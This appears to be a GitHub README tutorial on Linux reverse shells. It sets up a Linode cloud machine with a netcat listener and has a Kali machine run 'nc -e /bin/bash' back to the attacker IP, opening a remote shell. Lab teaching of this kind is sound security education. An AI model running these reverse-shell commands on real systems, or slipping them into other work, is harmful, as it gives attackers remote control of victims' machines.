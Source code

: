<h2><p align="center">Reverse Shells</h2>

<h3><p align="center">*ONLY FOR EDUCATIONAL PURPOSES ONLY*</h3>

<h4><p align="center">Welcome! This repository is your gateway to understanding reverse shells on Linux. If you're new to cybersecurity or curious about remote access methods, you're in the right place. We'll explain reverse shells in simple terms, empowering you to navigate this crucial aspect of digital security with confidence. For this lesson, I will be referring to NetworkChuck's video on how setup a Cloud enviroment for the attacking machine and our target machine. After this lesson, you will understand the importance and reason behind reverse shells. </h4>

[Video](https://www.youtube.com/watch?v=bXCeFPNWjsM&t=267s)
***


<h3>What are Reverse Shells?</h3>

Reverse shells are a type of shell session where a target machine connects back to an attacker's machine, rather than the other way around. This is typically used in scenario's where the target machine is behind a firewall or NAT and cannot accept incoming connections.

<p align="center">
<img src="https://i.imgur.com/XrJlchM.png" alt="Login"/>
</p>

Here is a Step-by-Step on how it works
1. The **attacker** compromises the **target** machine and injects code that establishes a connection to a remote system controlled by the **attacker**.
2. Once that connection has established, the **attacker** can now gain access thru the shell on the **target** machine. This allows them to execute commands and interact with the system as if it had physical access to it.
3. This connection is typically encrypted to prevent detection and interception by security measures.

In this lab, we'll also explore the use of Netcat for creating reverse shells. Netcat (a hackers swiss army knife), a versatile networking tool, acts like a direct line between computers. Think of it as setting up a secret phone call where the target computer calls back to the attacker's system. This enables hackers to gain remote access and control over the target, just like having a direct line to the computer's command center.

***

<h4><p align="center"><u>Tools you'll need</u></h4>

1. A computer for **target** machine
2. Cloud enviroment for **attacking** machine (*I will be using Linode, if you create an account right now and verify, you will get $100 credit to use*)

<p align="center">
<img src="https://i.imgur.com/mqhC9Sv.png" alt="Login"/>
</p>
   
4. [Virtual Box](https://www.virtualbox.org/wiki/Downloads) (*I will be using KaliLinux*)

<p align="center">
<img src="https://i.imgur.com/O0tsgnK.png" alt="Login"/>
</p>
 
5. Eagerness to learn!

***

<h4><u>Starting with Linode</u></h4>

<i><p align="center">Once you've created your Linode account and received the free $100 credit post-verification, this is how you will set it up.</i>

You will navigate to the top left of the page and look for "Create". Click on the drop down arrow next to it and select "Linode" -> For the distribution, click on "Ubuntu 18.04 LTS" -> Click on the nearest region next to you after that -> click on "Shared CPU" which is under the Linode plan section -> Click on the "Nanode 1GB" option (*Should read with a $5 Monthly charge*) -> After selection, name your Linode and set Root Password -> Then click "Create". 

Once you've setup your Linode, look at the top right underneath the name of the Linode and wait for it to say "Running" with a green circle next to it. This will confirm that your cloud enviroment is now stable and active to run.

<u><h4>Time to Login</h4></u>

*<i><p align="center">Now that we have our Linode setup, its time to login into the enviroment.</i>*

!. Look for your SSH Access and copy it. *(Look at the right side of the top portion of the Linode page and look for Access -> SSH Access)*
2. Open Command Prompt and type in this following command.
```bash
# Command to copy
ssh root@"fill in with your SSH Access"
```
3. Once you've entered the command line and press enter, it will prompt with "Are you sure you want to continue connecting?". Type "yes", then type your Root password. Then VIOLA! you're connected.

*<i><p align="center">Now lets understand NetCat</i>*

<p align="center">
<img src="https://i.imgur.com/X2sDSwc.png" alt="Login"/>
</p>

1. To go ahead and first check if NetCat is installed, type in the command line "nc"
 ```bash
# Command to copy
nc
```
2. Now going forward, since we are using NetCat to reverse shell, we have to make sure both clients both have NetCat installed. In this matter, since both are Linux machines, they both already come with NetCat installed.
3. Now we are going to use this command to see if it is listening.When picking the port, use a port # that is below 1000. L = Listen, N = IP Address Only, V = Verbose, P = Port
 ```bash
# Command to copy
nc -lvnp "port #" -s "Ip address from Linode"
```
Example: nc -lnvp 87 -s 192.168.1.1

4. Now once you've completed that part, it should prompt with a command line that is listening on that IP.

*<i><p align="center">Now let's set up the **target** machine in KaliLinux</i>*

<p align="center">
<img src="https://i.imgur.com/ctVa9B7.jpeg" alt="Login"/>
</p>

1. Open Kali Linux and click on the Terminal on the top right.
2. Type in this command
 ```bash
# Command to copy
nc -e /bin/bash "IP Address of Attacker/Cloud Machine"
```
3. Press enter and go back to Command Prompt Terminal. See what happens.
4. Try out some commands such as
 ```bash
# Command to copy
whoami   
```

 ```bash
# Command to copy
ls  
```

 ```bash
# Command to copy
uname -a  
```
<h3><p align="center">Overview of what we've learned!</h3>

<h4><p align="center">After you've completed this whole tutorial, mess around and see the benefits and powers of reverse shell. As powerful and cool it is, use it RESPONSIBLY. This lesson is for educational purposes and not inteded for malicious purposes. Ethical hacking is an amazing practice and helps you understand how to protect yourself more and more everyday.</h4>

*Remember, to not be charged by Linode:*

--> To remove a Linode from your account, click the Linodes tab, and then select the Remove link next to the Linode you want to remove.

--> To remove extras from your account, click the Linodes tab, select a Linode, click the Extras tab, and then select the Remove link.

--> To remove a NodeBalancer from your account, click the NodeBalancers tab, and then select the Remove link next to the NodeBalancer you want to remove.

--> To remove the Linode Backup Service, go to the Backups tab in your Linode’s Dashboard, and click the Cancel Backups link at the bottom of the page.
